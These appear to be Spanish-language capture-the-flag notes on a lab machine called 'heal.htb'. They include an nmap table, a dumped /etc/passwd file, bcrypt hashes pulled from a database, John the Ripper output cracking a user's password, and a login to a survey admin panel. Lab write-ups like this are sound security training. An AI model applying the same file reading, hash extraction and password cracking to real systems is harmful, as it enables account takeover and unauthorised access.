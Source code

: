 

---

## Nmap Summary
| Port | Software    | Version                                 | Status  |
| ---- | ----------- | --------------------------------------- | ------- |
| 53   | domain      | Simple DNS                              | open    |
| 80   | http        | Apache http 2.4.29                      | open    |
| 139  | netbios-sec | Microsfot Windows netbios-ssn           | open    |
| 389  | ldap        | Microsoft Windows Active Directory LDAP | open    |


## Information Recon

Ports tcp open in nmap format

```bash

```

Ports services and versions nmap format

```bash

```

Ports UDP nmap format

```bash

```

---

## Enumeration

## Port 80 - HTTP (Apache)



![[Pasted image 20250125191214.png]]

``` java
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
ralph:x:1000:1000:ralph:/home/ralph:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
avahi:x:114:120:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
geoclue:x:115:121::/var/lib/geoclue:/usr/sbin/nologin
postgres:x:116:123:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
ron:x:1001:1001:,,,:/home/ron:/bin/bash
```

Database.yml:

![[Pasted image 20250125192941.png]]

Cogemos los archivos "test" y "development";

![[Pasted image 20250125200410.png]]

encontramos el  hash de ralph , lo pasamos a john:
```sqlite3
1|ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG|2024-09-27 07:49:31.614858|2024-09-27 07:49:31.614858|Administrator|ralph|1
2|cher0@mail.com|$2a$12$V5gIpHzGI1aIbV4WD81bxO4VZzIHNgkCSnnqPmREgKjDq2zN6i4De|2025-01-25 18:24:48.597549|2025-01-25 18:24:48.597549|cher0 del rio |cher0|0

```


```bash
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 8 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 6.71% (ETA: 20:10:11) 0g/s 47.05p/s 47.05c/s 47.05C/s asdfgh..zephyr
147258369        (?)     
1g 0:00:00:47 DONE (2025-01-25 20:10) 0.02107g/s 47.04p/s 47.04c/s 47.04C/s 333333..iverson
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Tenemos la password de ralph
	ralph:147258369


No funciona en ssh pero podemos acceder desde la url
http://take-survey.heal.htb/index.php/admin/authentication/sa/login

![[Pasted image 20250125201341.png]]

Podemos entrar! 
![[Pasted image 20250125201412.png]]



---

